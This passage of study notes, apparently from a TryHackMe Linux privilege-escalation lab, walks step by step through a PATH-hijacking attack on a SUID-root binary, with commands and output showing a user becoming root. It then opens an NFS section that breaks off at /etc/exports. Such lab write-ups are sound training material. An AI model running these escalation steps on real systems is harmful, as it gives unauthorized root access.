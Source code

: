 ```
   256346     20 -rwsr-xr-x   1 root     root        16712 Jun 20  2021 /home/murdoch/test
```
* Contents of `thm.py` script.
```
cat /home/murdoch/thm.py
/usr/bin/python3

import os
import sys

try: 
	os.system("thm")
except:
	sys.exit()
```
* "test" file appears to be compiled version of `thm.py` script.
```
./test
sh: 1: thm: not found
```
* No path defined for script.
* Linux will look in the PATH environment to find the executable and will execute the first one it finds.
* Add `/tmp` directory into the beginning of the PATH environment.
```
export PATH=/tmp:$PATH
```
* Copy `/bin/bash` as "thm" under the `/tmp` folder.
```
cd /tmp
echo "/bin/bash" > thm
```
* Give executable rights to copy of `/bin/bash`
```
chmod 777 thm
ls -l thm
-rwxrwxrwx 1 karen karen 10 Feb 13 14:17 thm
```
* `home\murdoch\test` file will run with root privileges as SUID bit set.
```
cd /home/murdoch
whoami
karen
id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
./test
whoami
root
id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```
## Privilege Escalation: NFS
* Shared folders and remote management interfaces (SSH / Telnet) can help gain root access to a target.
  * E.g. finding root SSH private key.
* Misconfigured network shell may be another attack vector.
* Network File Sharing (NFS) located in `/etc/exports/ file.
  * Created during NFS server install.
```
cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
```